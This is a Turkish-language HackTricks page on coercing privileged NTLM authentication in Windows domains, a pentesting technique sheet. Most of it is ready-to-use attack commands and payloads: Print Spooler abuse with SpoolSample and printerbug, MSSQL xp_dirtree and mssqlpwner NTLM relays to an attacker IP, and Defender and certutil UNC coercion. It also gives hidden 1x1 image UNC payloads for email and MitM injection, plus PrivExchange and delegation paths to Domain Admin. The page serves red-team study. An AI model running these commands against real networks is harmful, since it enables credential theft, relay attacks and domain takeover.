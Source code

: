 # NTLM Ayrıcalıklı Kimlik Doğrulamasını Zorla

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers), 3. parti bağımlılıkları önlemek için MIDL derleyicisi kullanılarak C# ile kodlanmış **uzaktan kimlik doğrulama tetikleyicileri** **koleksiyonu**dur.

## Spooler Servisi İstismarı

Eğer _**Print Spooler**_ servisi **etkinse**, bazı bilinen AD kimlik bilgilerini kullanarak Alan Denetleyicisi’nin yazıcı sunucusuna yeni yazdırma işleri hakkında bir **güncelleme** **talep** edebilir ve sadece **bildirimi bazı sistemlere göndermesini** söyleyebilirsiniz.\
Yazıcı, bildirimi rastgele sistemlere gönderdiğinde, o **sistemle** **kimlik doğrulaması yapması** gerekir. Bu nedenle, bir saldırgan _**Print Spooler**_ hizmetinin rastgele bir sistemle kimlik doğrulaması yapmasını sağlayabilir ve hizmet bu kimlik doğrulamasında **bilgisayar hesabını** **kullanacaktır**.

### Alan üzerindeki Windows Sunucularını Bulma

PowerShell kullanarak, Windows kutularının bir listesini alın. Sunucular genellikle önceliklidir, bu yüzden oraya odaklanalım:
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Spooler hizmetlerini dinleyenleri bulma

Biraz değiştirilmiş @mysmartlogin'in (Vincent Le Toux'un) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket) aracını kullanarak, Spooler Hizmetinin dinleyip dinlemediğini kontrol edin:
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
Linux'te rpcdump.py kullanabilir ve MS-RPRN Protokolü'nü arayabilirsiniz.
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### Servisten rastgele bir ana bilgisayara kimlik doğrulaması yapmasını isteyin

[ **Buradan SpoolSample'ı**](https://github.com/NotMedic/NetNTLMtoSilverTicket)** derleyebilirsiniz.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
ve Linux'taysanız [**3xocyte's dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) veya [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) kullanın
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Unconstrained Delegation ile Birleştirme

Eğer bir saldırgan [Unconstrained Delegation](unconstrained-delegation.md) ile zaten bir bilgisayarı ele geçirmişse, saldırgan **yazıcının bu bilgisayara kimlik doğrulaması yapmasını sağlayabilir**. Unconstrained delegation nedeniyle, **yazıcının bilgisayar hesabının TGT'si** unconstrained delegation ile bilgisayarın **belleğinde** **saklanacaktır**. Saldırgan bu hostu zaten ele geçirdiği için, **bu bileti alabilecek** ve bunu kötüye kullanabilecektir ([Pass the Ticket](pass-the-ticket.md)).

## RCP Zorla Kimlik Doğrulama

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

`PrivExchange` saldırısı, **Exchange Server `PushSubscription` özelliğinde** bulunan bir hatanın sonucudur. Bu özellik, herhangi bir posta kutusuna sahip alan kullanıcısının Exchange sunucusunu HTTP üzerinden herhangi bir istemci tarafından sağlanan hosta kimlik doğrulaması yapmaya zorlamasına olanak tanır.

Varsayılan olarak, **Exchange servisi SYSTEM olarak çalışır** ve aşırı ayrıcalıklara sahiptir (özellikle, **2019'dan önceki Kümülatif Güncelleme üzerinde WriteDacl ayrıcalıklarına sahiptir**). Bu hata, **LDAP'ya bilgi iletimini sağlamak ve ardından alan NTDS veritabanını çıkarmak** için sömürülebilir. LDAP'ya iletim mümkün olmadığında bile, bu hata alan içindeki diğer hostlara iletim ve kimlik doğrulama yapmak için kullanılabilir. Bu saldırının başarılı bir şekilde sömürülmesi, herhangi bir kimlik doğrulaması yapılmış alan kullanıcı hesabıyla Domain Admin'e anında erişim sağlar.

## Windows İçinde

Eğer zaten Windows makinesinin içindeyseniz, Windows'u ayrıcalıklı hesaplarla bir sunucuya bağlanmaya zorlayabilirsiniz:

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)
```shell
# Issuing NTLM relay attack on the SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250
```
Or use this other technique: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

certutil.exe lolbin (Microsoft imzalı ikili) kullanarak NTLM kimlik doğrulamasını zorlamak mümkündür:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTML enjeksiyonu

### E-posta ile

Eğer ele geçirmek istediğiniz bir makineye giriş yapan kullanıcının **e-posta adresini** biliyorsanız, ona **1x1 boyutunda bir resim** içeren bir **e-posta** gönderebilirsiniz.
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
ve açtığında, kimlik doğrulamaya çalışacaktır.

### MitM

Eğer bir bilgisayara MitM saldırısı gerçekleştirebilir ve onun görüntüleyeceği bir sayfaya HTML enjekte edebilirseniz, sayfaya aşağıdaki gibi bir resim enjekte etmeyi deneyebilirsiniz:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## NTLMv1 Kırma

Eğer [NTLMv1 zorluklarını yakalayabilirseniz, nasıl kırılacağını buradan okuyun](../ntlm/#ntlmv1-attack).\
_NTLMv1'i kırmak için Responder zorluğunu "1122334455667788" olarak ayarlamanız gerektiğini unutmayın._

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
